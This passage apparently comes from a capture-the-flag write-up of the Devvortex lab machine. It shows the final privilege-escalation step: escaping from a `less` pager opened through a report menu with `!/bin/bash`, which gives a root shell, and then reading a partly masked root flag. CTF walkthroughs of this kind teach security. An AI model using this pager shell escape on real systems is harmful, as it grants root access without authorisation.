 At this menu, I can select “V” to get back into `less`. It takes a minute generating a report depending on the report size. Once it’s done, it opens in `less`:

![image-20240423170454738](https://0xdf.gitlab.io/img/image-20240423170454738.png)

To escape from `less`, I’ll type `!/bin/bash`, and I’m dropped to a root shell:

```
root@devvortex:/home/logan# id
uid=0(root) gid=0(root) groups=0(root)

```

And I’ll grab the root flag:

```
root@devvortex:~# cat root.txt
79bd5241************************

```





